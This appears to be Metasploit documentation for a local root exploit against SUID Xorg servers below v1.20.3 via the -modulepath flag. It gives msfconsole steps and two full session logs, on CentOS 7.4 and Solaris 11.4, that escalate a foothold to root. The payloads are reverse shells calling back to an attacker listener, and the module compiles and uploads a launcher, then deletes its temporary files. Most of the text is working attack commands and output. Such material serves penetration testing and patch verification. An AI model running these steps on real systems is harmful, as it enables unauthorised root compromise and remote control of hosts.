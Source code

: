 ## Vulnerable Application

  For Xorg server versions below `v1.20.3`, there is an incorrect permissions
  check when starting Xorg with the `-modulepath` flag. That combined with Xorg
  being an SUID binary, users can execute arbitrary code as root.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/local/xorg_x11_suid_server_modulepath```
  4. Do: ```set SESSION <sess_no>```
  5. Do: ```set TARGET <target_no>```
  6. Do: ```run```
  7. You should get a shell with root privileges.

## Scenarios

### Xorg `v1.19.3` on Centos 7.4

  ```
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] Sending stage (816260 bytes) to 172.16.215.159
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.159:52816) at 2019-10-22 09:50:42 -0500

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > background
  [*] Backgrounding session 1...
  msf5 exploit(multi/handler) > use exploit/multi/local/xorg_x11_suid_server_modulepath
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set session 1
  session => 1
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > check
  [+]  The target is vulnerable.
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [+] Passed all initial checks for exploit
  [*] Writing launcher and compiling
  [*] Uploading your payload, this could take a while
  [*] Exploiting
  [*] Sending stage (816260 bytes) to 172.16.215.159
  [*] Meterpreter session 2 opened (172.16.215.1:4444 -> 172.16.215.159:52818) at 2019-10-22 09:51:38 -0500
  [+] Deleted /tmp/libglx.so
  [+] Deleted /tmp/.session-xehPZXcIrZ

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```

### Xorg `v1.19.5` on Solaris 11.4

  ```
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] Command shell session 3 opened (172.16.215.1:4444 -> 172.16.215.152:49722) at 2019-10-22 09:27:45 -0500

  whoami
  space
  uname -a
  SunOS solaris 5.11 11.4.0.15.0 i86pc i386 i86pc
  background

  Background session 3? [y/N]  y

  msf5 exploit(multi/handler) > use exploit/multi/local/xorg_x11_suid_server_modulepath 
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set payload cmd/unix/reverse_ksh
  payload => cmd/unix/reverse_ksh
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set session 3
  session => 3
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > set target 2
  target => 2
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > check

  [!] SESSION may not be compatible with this module.
  [+]  The target is vulnerable.
  msf5 exploit(multi/local/xorg_x11_suid_server_modulepath) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [+] Passed all initial checks for exploit
  [*] Writing launcher and compiling
  [*] Uploading your payload, this could take a while
  [*] Exploiting
  [*] Command shell session 4 opened (172.16.215.1:4444 -> 172.16.215.152:57420) at 2019-10-22 09:30:05 -0500
  [+] Deleted /tmp/qHkvGfpTTu.c
  [+] Deleted /tmp/libglx.so
  [+] Deleted /tmp/.session-jRlZ4zPfO

  whoami
  root
  uname -a
  SunOS solaris 5.11 11.4.0.15.0 i86pc i386 i86pc
  ```
